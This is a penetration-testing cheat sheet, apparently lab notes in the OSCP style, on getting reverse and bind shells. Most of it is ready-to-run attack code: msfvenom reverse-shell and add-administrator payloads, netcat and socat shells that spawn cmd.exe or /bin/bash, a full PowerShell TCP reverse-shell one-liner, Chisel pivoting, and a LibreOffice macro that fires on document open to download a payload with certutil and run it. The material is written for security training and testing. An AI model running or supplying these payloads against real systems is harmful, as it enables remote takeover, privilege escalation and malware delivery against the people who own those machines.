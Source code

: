 # Reverse/Bind Shells

## <mark style="color:red;">Shell Generator</mark>

You can get a shell easily from here: [https://www.revshells.com/](https://www.revshells.com/)

### <mark style="color:blue;">Upgrading a Non-Interactive Shell</mark>

```python
python -c 'import pty; pty.spawn("/bin/bash");'
[Ctrl + Z]
stty raw -echo; fg
```

## <mark style="color:red;">Msfvenom</mark>

Windows 10 x64 reverse shell with **msfvenom**:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o shell_53.exe
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.11 LPORT=443 -f exe -o shell_443.exe
```

Using msfvenom to execute a specific command:

```bash
msfvenom -p windows/exec CMD="net localgroup administrators <USERNAME_TO_ADD> /add" -f exe -o file.exe
```

Run process without spawn new window and loose non-TTY shell:

```
> start-process -nonewwindow -filepath ./shell.exe
```

## <mark style="color:red;">**Netcat Bind Shell**</mark>

Windows / Setup bind shell:

```bash
C:\Users\offsec> ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.0.22
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.11.0.1

C:\Users\offsec> nc -nlvp 4444 -e cmd.exe
listening on [any] 4444 ...
```

Kali / Calling bind shell:

```bash
kali@kali:~$ nc -nv 10.11.0.22 4444
(UNKNOWN) [10.11.0.22] 4444 (?) open
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec> ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.0.22
```

## <mark style="color:red;">Netcat Reverse Shell</mark>

Windows:

```bash
C:\Users\offsec> nc -nlvp 4444
listening on [any] 4444 ...
```

Kali:

```bash
kali@kali:~$ ip address show eth0 | grep inet
          inet 10.11.0.4/16  brd 10.11.255.255  scope global dynamic eth0
          
kali@kali:~$ nc -nv 10.11.0.22 4444 -e /bin/bash
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

The connection is received by Netcat on the Windows machine as shown below:

```bash
C:\Users\offsec>nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.0.22] from <UNKNOWN) [10.11.0.4] 43482

ip address show eth0 | grep inet
          inet 10.11.0.4/16  brd 10.11.255.255  scope global dynamic eth0
```

## <mark style="color:red;">Socat Reverse Shell</mark>

Listen:

```bash
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOUT
... socat[4388] N listening on AF=2 0.0.0.0:443
```

Connect:

```bash
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

## <mark style="color:red;">Socat Encrypted Bind Shell</mark>

Generating SSL certificate:

```bash
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

Creating .pem file:

```bash
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Listen:

```bash
kali@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

Connect:

```bash
C:\Users\offsec> socat - OPENSSL:10.11.0.4:443,verify=0
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

## <mark style="color:red;">Chisel</mark>

How it works: [https://ap3x.github.io/posts/pivoting-with-chisel/](https://ap3x.github.io/posts/pivoting-with-chisel/)

Download it from here:

{% embed url="https://github.com/jpillora/chisel/releases" %}

Reverse pivot:

```bash
./chisel server -p 9002 -reverse -v #On Kali
./chisel client <RHOST>:9002 R:9003:127.0.0.1:8888 #On victim machine
```

SOCKS5 / Proxychains Configuration:

```bash
./chisel server -p 9002 -reverse -v #On Kali
./chisel client <RHOST>:9002 R:socks #On victim machine
```

## <mark style="color:red;">PowerShell Reverse Shell</mark>

Listen:

```bash
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443 ...
```

Connect:

```bash
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Result:

```bash
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 63515

PS C:\Users\offsec>
```

## <mark style="color:red;">PHP Reverse Shell</mark>

A php reverse shell from pentest monkey:

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}

## <mark style="color:red;">LibreOffice</mark>

If you can upload an ODT LibreOffice file and execute it you can insert a macro inside it, as follow.

First insert the reverse shell payload for Windows inside a **reverse.ps1** file:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

We can create a new basic macro and save it:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>ODT Macro</p></figcaption></figure>

The ODT Macro content is the following:

```powershell
Sub Main
    Shell("cmd /c certutil -urlcache -split -f http://<kali_ip>:80/shell_80.exe C:\\Windows\\Tasks\\shell_80.exe")
    Shell("cmd /c C:\Windows\Tasks\shell_80.exe")
End Sub
```

Now link it to the “Open Document” event. Under Tools -> Customize -> Events.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Save. Start a netcat listener and a python web server and upload the odt file. Get the shell back.
